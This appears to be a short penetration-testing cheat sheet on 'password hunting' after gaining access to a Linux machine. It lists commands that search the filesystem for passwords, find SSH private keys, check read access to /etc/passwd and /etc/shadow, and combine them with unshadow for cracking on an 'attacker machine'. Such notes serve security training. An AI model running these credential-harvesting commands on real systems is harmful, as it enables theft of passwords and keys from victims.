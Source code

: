 Password Hunting

Locating any file on the computer that has the word “PASSWORD”

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
grep --color=auto -rnw ‘/’ -ie “PASSWORD=” --color=always 2> /dev/null

locate password | more

locate pass | more
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Locating SSH Keys

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
find / -name id_rsa 2> /dev/null

find / -name authorized_keys 2> /dev/null
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Listing Read Access/Permissions to Passwd and Shadow files in /etc

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
ls -la /etc/passwd

ls -la /etc/shadow
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Combining Passwd and Shadow files if both are readable on the victim machine

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
# Copy the contents of the passwd and shadow files to new files on the attacker machine

unshadow passwd shadow > unshadowed

# Edit file and remove all users without hashes
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
